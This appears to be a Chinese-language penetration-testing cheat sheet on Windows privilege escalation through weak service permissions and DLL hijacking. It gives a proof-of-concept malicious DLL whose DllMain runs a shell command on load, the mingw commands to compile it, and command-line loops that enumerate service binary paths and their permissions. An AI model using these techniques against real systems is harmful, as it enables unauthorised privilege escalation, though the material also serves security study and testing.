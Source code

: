 # 错误的服务权限属性

主要利用方式：以管理员/SYSTEM 身份运行且文件权限不正确的服务进行利用，可以替换二进制文件，重新启动服务并获取系统。

## **DLL 劫持**

```bash
Find-PathDLLHijack PowerUp.ps1    找到缺失的dll文件

编译恶意dll：
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll   对于64位编译
i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll  对于32位编译

windows_dll.c 文件内容：
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

## 弱权限的路径目录

```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

```bash
sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

**或者使用MSF的 exploit/windows/local/service_permissions 模块**

### **检查文件权限：**

cacls （Windows XP）

icacls (Windows Vista +)

**只需要关注**

`BUILTIN\Users:(F)`   (完全访问权限)

`BUILTIN\Users:(M)` （修改权限）

`BUILTIN\Users:(W)` （写入权限）
